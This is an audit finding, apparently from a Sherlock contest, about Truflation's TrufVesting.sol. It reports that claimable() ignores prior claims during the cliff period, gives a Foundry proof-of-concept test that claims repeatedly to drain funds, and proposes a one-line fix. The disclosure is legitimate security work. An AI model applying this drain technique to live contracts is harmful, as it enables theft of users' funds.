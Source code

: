 Quiet Ceramic Oyster

high

# Loss of Funds: `TrufVesting.sol` can be drained by an attacker.

## Summary

Any position active within the [`cliff`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L97) period enables the [`user`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L212C28-L212C28) to call [`claim(address, uint256,uint256,uint256)`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L212C14-L212C93) in perpetuity, leaving the contract vulnerable to attackers.

## Vulnerability Detail

Calls to [`claimable(uint256,uint256,address)`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L159C5-L159C76) are expected to take into account the token balance already claimed by a [`user`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L159C5-L159C76). For example, during the standard vesting period, the `claimable` amount is calculated as follows:

```solidity
uint256 vestedAmount = ((totalAmount - initialRelease) * timeElapsed) / info.period + initialRelease;

uint256 maxClaimable = userVesting.amount - userVesting.locked;
if (vestedAmount > maxClaimable) {
    vestedAmount = maxClaimable;
}
if (vestedAmount <= userVesting.claimed) {
    return 0;
}

claimableAmount = vestedAmount - userVesting.claimed;
```

Crucially, the `claimableAmount` is reduced by the amount already recorded as `claimed` in `userVesting`.

However, within the [`cliff`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L97) period, the `userVesting.claimed` is not taken into account:

```solidity
if (startTime > block.timestamp) {
    return initialRelease;
}
```

Consequently, a caller may make repeated calls to [`claim(address, uint256,uint256,uint256)`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L212C14-L212C93) during the [`cliff`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L97) period to repeatedly withdraw this fixed amount:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import "forge-std/console.sol";
import "forge-std/Test.sol";
import "../../src/token/TruflationToken.sol";
import "../../src/token/TrufVesting.sol";
import "../../src/token/VotingEscrowTruf.sol";
import "../../src/staking/VirtualStakingRewards.sol";

import "./TrufVesting.t.sol";

contract TrufVestingSherlockTest is TrufVestingTest {

    function testClaimableAfterInitialReleaseBeforeCliffExploit() external {

        _setupVestingPlan();
        _setupExampleUserVestings();

        uint256 categoryId = 2;
        uint256 vestingId = 0;

        (uint256 amount,,,) = vesting.userVestings(categoryId, vestingId, alice);

        uint64 tgeTime = vesting.tgeTime();

        (uint64 _initialReleasePct, uint64 _initialReleasePeriod, uint64 _cliff,,) =
            vesting.vestingInfos(categoryId, vestingId);

        assertEq(_cliff, 1728000) /* info */;
        assertEq(trufToken.balanceOf(alice), 0) /* info */;

        vm.warp(tgeTime + _initialReleasePeriod + _cliff - 1);

        uint256 cliffPeriodClaimAmount = vesting.claimable(categoryId, vestingId, alice);

        assertEq(cliffPeriodClaimAmount, 10000000000000000000) /* info */;

        vm.prank(alice);
            vesting.claim(alice, categoryId, vestingId, cliffPeriodClaimAmount);
        vm.prank(alice);
            vesting.claim(alice, categoryId, vestingId, cliffPeriodClaimAmount);
        vm.prank(alice);
            vesting.claim(alice, categoryId, vestingId, cliffPeriodClaimAmount);

        // [...] Alice can claim indefinitely during the reward period.

        assertEq(trufToken.balanceOf(alice), 3 * cliffPeriodClaimAmount) /* repeat_to_drain */;
    }

}
```

In the above demonstration, we use just three iterations. In reality, an attacker would continue until the entire balance of the [`TrufVesting`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L97) contract had been consumed.

## Impact

The entire balance of the contract can be drained by an attacker.

## Code Snippet

```solidity
/**
 * @notice Calcualte claimable amount (total vested amount - previously claimed amount - locked amount)
 * @param categoryId Vesting category id
 * @param vestingId Vesting id
 * @param user user address
 * @return claimableAmount Claimable amount
 */
function claimable(uint256 categoryId, uint256 vestingId, address user)
    public
    view
    returns (uint256 claimableAmount)
{
    UserVesting memory userVesting = userVestings[categoryId][vestingId][user];

    VestingInfo memory info = vestingInfos[categoryId][vestingId];

    uint64 startTime = userVesting.startTime + info.initialReleasePeriod;

    if (startTime > block.timestamp) {
        return 0;
    }

    uint256 totalAmount = userVesting.amount;

    uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;

    startTime += info.cliff;

    if (startTime > block.timestamp) {
        return initialRelease;
    }

    uint64 timeElapsed = ((uint64(block.timestamp) - startTime) / info.unit) * info.unit;

    uint256 vestedAmount = ((totalAmount - initialRelease) * timeElapsed) / info.period + initialRelease;

    uint256 maxClaimable = userVesting.amount - userVesting.locked;
    if (vestedAmount > maxClaimable) {
        vestedAmount = maxClaimable;
    }
    if (vestedAmount <= userVesting.claimed) {
        return 0;
    }

    claimableAmount = vestedAmount - userVesting.claimed;
    uint256 emissionLeft = getEmission(categoryId) - categories[categoryId].totalClaimed;

    if (claimableAmount > emissionLeft) {
        claimableAmount = emissionLeft;
    }
}
```

## Tool used

Manual Review, Visual Studio Code, Foundry

## Recommendation

### [TrufVesting.sol](https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol)

Ensure that the `userVesting.claimed` is taken into account during the [`cliff`](https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L97) period.

```diff
        startTime += info.cliff;

        if (startTime > block.timestamp) {
-            return initialRelease;
+            return initialRelease - userVesting.claimed;
        }

        uint64 timeElapsed = ((uint64(block.timestamp) - startTime) / info.unit) * info.unit;
```
